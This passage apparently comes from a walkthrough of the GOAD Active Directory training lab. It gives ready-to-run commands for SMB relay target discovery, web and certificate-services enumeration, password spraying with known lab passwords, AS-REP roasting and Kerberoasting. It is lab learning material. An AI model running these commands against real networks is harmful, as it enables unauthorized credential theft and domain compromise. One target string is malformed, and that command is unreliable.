 ### **Phase 2: Vulnerability Assessment**

#### **SMB Security Analysis**
```bash
# SMB signing status check
crackmapexec smb 192.168.20.0/24 --gen-relay-list relay_targets.txt
# Critical Finding: BRAAVOS has SMB signing disabled
```

#### **Web Application Testing**
```bash
# Directory enumeration with Gobuster
gobuster dir -u http://192.168.20.23 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
# Finding: Multiple timeout errors - potential DoS vulnerability

# IIS-specific testing with Nuclei
nuclei -u http://192.168.20.10,22,23 -tags iis,microsoft -severity high,critical
```

#### **Certificate Services Assessment**
```bash
# ADCS enumeration (if Certipy available)
certipy find -u guest@essos.local -p '' -dc-ip 192.168.20.23
# Target: CertEnroll share on BRAAVOS for template analysis
```

### **Phase 3: Credential Attacks**

#### **Password Spraying**
```bash
# Common GOAD passwords
crackmapexec smb 192.168.20.0/24 -u users.txt -p 'hodor' --continue-on-success
crackmapexec smb 192.168.20.0/24 -u users.txt -p 'Winter2019' --continue-on-success
# Known working: hodor:hodor, rickon.stark:Winter2019
```

#### **Kerberos Attacks**
```bash
# ASREPRoasting (brandon.stark, missandei)
GetNPUsers.py north.sevenkingdoms.local/ -dc-ip 192.168.20.11 -usersfile users.txt -no-pass

# Kerberoasting (jon.snow, sql_svc)
GetUserSPNs.py north.sevenkingdoms.local/hodor:hodor -dc-ip 192.168.20.11 -outputfile kerberoast.txt
```

---

## 🎯 **GOAD-Specific Attack Scenarios**

### **🏆 Attack Path 1: "Winter is Coming" - The North Takeover**
**Success Rate: 95% | Difficulty: Beginner**
